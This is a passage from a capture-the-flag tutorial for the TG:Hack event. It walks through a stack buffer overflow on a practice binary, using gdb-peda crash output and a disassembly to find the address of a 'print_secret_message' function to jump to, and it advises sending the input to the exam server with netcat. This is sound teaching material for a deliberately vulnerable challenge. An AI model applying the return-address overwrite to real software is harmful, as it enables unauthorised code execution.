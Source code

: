```bash
0004| 0xffffd084 --> 0xffffd0a0 --> 0x1 
0008| 0xffffd088 --> 0x0 
0012| 0xffffd08c --> 0xf7df3e81 (<__libc_start_main+241>:	add    esp,0x10)
0016| 0xffffd090 --> 0xf7fb3000 --> 0x1d7d6c 
0020| 0xffffd094 --> 0xf7fb3000 --> 0x1d7d6c 
0024| 0xffffd098 --> 0x0 
0028| 0xffffd09c --> 0xf7df3e81 (<__libc_start_main+241>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
```

2. We are nearly there! We know exactly where to put the memory address we want
the program to continue from after finishing the `answer_professor` function 
code. The only thing we are missing is the memory address itself. This is the 
main reason we use gdb! As we know the function name by looking at the source 
code, finding the memory address is as easy as doing the following in gdb:

```bash
gdb-peda$ disas print_secret_message
Dump of assembler code for function print_secret_message:
   0x080484b6 <+0>:	push   ebp
   0x080484b7 <+1>:	mov    ebp,esp
   0x080484b9 <+3>:	push   ebx
   0x080484ba <+4>:	sub    esp,0x4
   0x080484bd <+7>:	call   0x8048575 <__x86.get_pc_thunk.ax>
   0x080484c2 <+12>:	add    eax,0x1442
   0x080484c7 <+17>:	sub    esp,0xc
   0x080484ca <+20>:	lea    edx,[eax-0x1304]
   0x080484d0 <+26>:	push   edx
   0x080484d1 <+27>:	mov    ebx,eax
   0x080484d3 <+29>:	call   0x8048360 <system@plt>
   0x080484d8 <+34>:	add    esp,0x10
   0x080484db <+37>:	nop
   0x080484dc <+38>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080484df <+41>:	leave  
   0x080484e0 <+42>:	ret    
End of assembler dump.
gdb-peda$ 
```

We choose the memory address at the top of the function, and the program will
run all the code in the function, and print our precious secret! Another hot
tip is to make a file called _flag.txt_ on your computer when working locally.
If you don't, the program will get an error saying that the file it is trying
to read is missing. It is nice to put in a dummy flag, so that you know it 
works as wanted.

---

If it works locally on your machine, you should be ready for the exam! 
Unbelievable, isn't it? After the three exams for this course, you have 
the foundation to become a Master of Pwntions! The exam is the task 
named `Introduction to Pwntions: Stack overflow pt. 3` in the pwn 
category at the challenges page. As a tip for the exam, you should 
replace the binary file on your machine with the _netcat_ (nc) command,
using the given url and port as parameters. Then you insert the input 
to the server. Poke us on [Discord](https://discord.gg/da4rjQ) in the 
#tghack channel, or come by the TG:Hack area in the Creative zone during 
the lanparty [The Gathering](https://www.gathering.org/tg19) for help!
